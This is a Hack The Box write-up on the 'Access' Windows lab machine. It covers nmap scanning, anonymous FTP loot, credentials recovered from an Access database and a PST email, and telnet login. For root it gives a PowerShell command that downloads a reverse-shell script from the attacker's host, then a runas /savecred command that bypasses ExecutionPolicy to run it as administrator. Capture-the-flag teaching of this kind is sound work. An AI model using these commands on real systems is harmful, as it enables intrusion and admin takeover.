







# Hack The Box: Access machine write-up

Yet again another Windows machine rooted! This machine was quite tricky for me in the sense that I came across different problems that weren't supposed to be found (like downloading files through FTP without binary mode ON) but in the end I managed to follow the expected path to get the hash. The way to root is first through an anonymous ftp connection from which we obtain some creds to log in through telnet. From there, a simple manual enumeration shows that there are stored credentials and therefore we can run commands as administrator. Let's dig in!

The machine is running on port 10.10.10.98.

### Enumeration

Firstly, I enumerate open ports to discover the services running in the machine (I added access to my ``/etc/hosts`` as access):

```sh
nmap -sV -sC -oA nmap/initial access
```

```console
# Nmap 7.01 scan initiated Sun Nov  4 14:36:32 2018 as: nmap -sV -sC -oA nmap/initial access
Nmap scan report for access (10.10.10.98)
Host is up (0.030s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
|_ftp-anon: ERROR: Script execution failed (use -d to debug)
|_ftp-bounce: no banner
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Nov  4 14:39:24 2018 -- 1 IP address (1 host up) scanned in 171.78 seconds
```

### Enumeration of the services

#### Web service

We can see three services running so let's check the web service first on port 80.

*Contents of webpage*



I ran Dirb and DirBuster however nothing was found and I moved on to the other two services.

#### FTP

So let's check port 21. As it was asking for username I tried to log in anonymously and it worked (``anonymous`` as username and no password). Once in, we can see two directories: ``Backups`` and ``Engineer``. In the first one I find a file called ``backup.mdb`` and in the other ``Access Control.zip``. In order to have a look at them I download them with ```mget filename```.

**However, it is really important to set binary mode, otherwise the .mdb file won't be transferred properly and you won't be able to read it. You can do so by typing** ``binary``.

Having downloaded both files I can see that the zip is password protected, so I'll have to go to the .mdb file. The extension translates to <i>Microsoft Access Database</i>. Then, I  downloaded a tool which will let me see the contents of the database: ``gmdb2``.

To install: ``apt-get install mdbtools-gmdb``.

Then to query the db we just need to run: ``gmdb2 backup.mdb``.

The tool uses a visual interface, so by inspecting the names of the tables we can finally come across an interesting one: ``auth_user``.

*Visual interface of the tool*



*Contents of auth_user table*



Now, with those creds I tried to log in to telnet, but no luck. Then I remembered that I still had the zip file, so I tried to open it with the credentials. Yay!

The zip opened with password ``access4u@security``.

Inside there was a file called ``Access Control.pst``. PST files are Microsoft Outlook files, so in order to be able to see the email I tried to [convert](https://www.coolutils.com/online/PST-to-MBOX) it to another format (.eml) and successfully viewed it on my OSX machine:

*Contents of email (.pst file)*



### Telnet

With the new credentials we can log in through telnet: ``security:4Cc3ssC0ntr0ller``. Navigating the system we eventually get the user flag.

*Getting user flag*



## Root

Getting to Administrator wasn't too difficult, we just needed to check if we could execute ``runas`` with admin credentials. For that, I ran the command ``cmdkey /list``:

*Discovering that we can runas Administrator*



With that said, the only thing needed was download a reverse ps script from my local machine and then execute the ``runas`` command with the credentials saved and current environment. The command I used needed to bypass ExecutionPolicy in order to be able to connect back to my reverse shell.

```console
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.175:8001/minRev.ps1','C:\Users\security\rev.ps1')"
```

```console
runas /env /savecred /user:administrator "powershell -ExecutionPolicy ByPass -File rev.ps1"
```

*Reverse shell as Administrator*



---
<center><i>Diego Bernal Adelantado</i></center>
